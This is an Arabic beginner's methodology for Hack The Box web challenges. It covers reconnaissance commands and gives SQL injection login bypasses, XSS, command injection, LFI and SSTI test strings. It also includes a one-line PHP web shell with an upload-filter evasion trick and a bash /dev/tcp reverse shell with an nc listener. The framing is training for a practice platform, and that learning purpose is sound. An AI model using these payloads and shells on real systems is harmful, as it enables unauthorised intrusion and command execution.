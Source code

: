 # 🕸 Web Exploitation Methodology for HTB (Beginner-Friendly)

## ⚠️ مقدمة
هذا الملف يقدم لك ميثودولوجية (منهجية) كاملة لحل تحديات **Hack The Box** المتعلقة باختبار اختراق المواقع (Web Exploitation). مناسب للمبتدئين، كل خطوة مشروحة بتفصيل عميق عشان تفهم مو بس تطبق.

---

## ✅ 1. جمع المعلومات (Reconnaissance)

### 🔹 1.1 فحص البورتات
نستخدم أداة `nmap` عشان نعرف البورتات المفتوحة على السيرفر:

```bash
sudo nmap -sS -sV -sC -A -T4 -Pn -p- -oN web_scan.txt <IP>
```

- `-p-` : يفحص كل البورتات (1 إلى 65535)
- `-sS` : يعمل فحص SYN (سريع وخفي)
- `-Pn` : يتجاهل فحص الـ ping (لو كان الجهاز يحجب الـ ping)
- `-T4` : لتسريع الفحص


### 🔹 1.2 فحص الخدمات الموجودة على البورتات
بعد ما نعرف البورتات، نستخدم هذا الأمر لمعرفة نوع الخدمات والإصدارات:

- `-sC` : يشغل سكربتات nmap الافتراضية
- `-sV` : يتعرف على إصدار كل خدمة
- `-oN` : لحفظ النتائج في ملف

### 🔹 1.3 استكشاف الملفات والمجلدات
نستخدم أدوات مثل `ffuf` أو `feroxbuster` للبحث عن صفحات مخفية:

```bash
ffuf -u http://<IP>/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.html,.txt
```

- `-w` : تحدد قائمة الكلمات لتجريبها
- `-e` : إضافات الملفات الممكنة

### 🔹 1.4 معرفة التقنيات المستخدمة
```bash
whatweb <IP>
wafw00f <IP>
```

- `whatweb` : يخبرك إذا الموقع يستخدم WordPress أو Laravel أو غيره.
- `wafw00f` : يكشف إذا فيه Web Application Firewall يحجب الطلبات.

---

## 🔍 2. تحليل منطق الموقع

- افتح الموقع في المتصفح، وشغّل أدوات المطور (DevTools):
  - Network → راقب الاتصالات
  - Console → تظهر أخطاء الجافاسكربت
  - Cookies & Local Storage → يمكن فيها توكن أو صلاحيات

- اقرأ كود HTML جيداً، مرات يكتبون فيه تعليقات مهمة.

---

## 🔐 3. تجاوز تسجيل الدخول (Authentication Bypass)

- جرب إدخال SQL Injection في الحقول:

```
' OR '1'='1 --
' OR '1'='1 --#
etc...
```

- جرب أسماء مستخدمين وكلمات مرور معروفة:
  - admin:admin
  - guest:guest

- جرب استخدام أدوات مثل Burp Suite لاعتراض وتعديل الطلبات.

---

## 🧪 4. اختبار الحقول يدوياً (Manual Testing)

- XSS:
```html
<script>alert(1)</script>
```

- Command Injection:
```
127.0.0.1;id
```

- LFI:
```
../../../../etc/passwd
```

- SSTI (Server Side Template Injection):
```
{{7*7}} أو ${7*7}
```

- تحقق من الهيدرز:
  - X-Forwarded-For
  - Host

---

## 🧷 5. تحليل ملفات JavaScript

```bash
curl http://<IP>/js/app.js
```

- شوف هل فيه endpoints مخفية أو توكنات أو كلمات مرور.

---

## 📤 6. ثغرات رفع الملفات

لو فيه مكان ترفع فيه ملف:
- جرب ترفع shell بامتداد `.php`
- جرب خداع الفلتر بأسماء مثل:
  - `shell.php.jpg`
  - `shell.phtml`

محتوى shell بسيط:

```php
<?php system($_GET['cmd']); ?>
```

ثم تنفذه:

```bash
curl http://<IP>/uploads/shell.php?cmd=id
```

---

## 🍪 7. التلاعب بالكوكيز (Cookies)

- إذا الكوكي مشفر بـ Base64، افكه وشف المحتوى.
- إذا الكوكي JWT، جرب تعدل الـ payload.
- مرات الكوكي يحتوي role=admin أو user_id.

---

## 🧱 8. هل الموقع CMS معروف؟

- WordPress؟ استعمل:

```bash
wpscan --url http://<IP> --enumerate u
```

- Joomla؟ استعمل:
```bash
droopescan scan joomla -u http://<IP>
```

---

## 🧠 9. الوصول الأولي (Initial Access)

لو حصلت استغلال ناجح (XSS, File Upload, RCE)، حاول تجيب **Reverse Shell**:

```bash
bash -i >& /dev/tcp/<YourIP>/4444 0>&1
```

وفي جهازك:
```bash
nc -lvnp 4444
```

---

## 🔼 10. تصعيد الصلاحيات (Web Privilege Escalation)

بعد ما تدخل:
- شوف الملفات القابلة للقراءة (config.php, .env)
- هل فيه ملفات dev؟ أو سكربتات نسوا يحذفوها؟
- هل فيه cron job تستدعي سكربت قابل للتعديل؟

---

## 🏁 11. الحصول على الـ Flags

- `user.txt` دايمًا يكون في `/home/<user>/`
- `root.txt` دايمًا يكون في `/root/`

استخدم `cat` لقراءتهم.

---

## 🧰 أدوات ثابتة

| المرحلة | الأدوات |
|---------|---------|
| فحص البورتات | nmap |
| اكتشاف الملفات | ffuf, feroxbuster |
| اختبار يدوي | Burp Suite, curl |
| فحص CMS | wpscan, droopescan |
| Shells | nc, revshells.com |
| قراءة ملفات | cat, strings, grep |

---

## ✅ نصيحة أخيرة

لا تحفظ الثغرات، افهم المنطق. كل ما فهمت كيف المبرمج أخطأ، كل ما قدرت تستغل بسهولة.

---
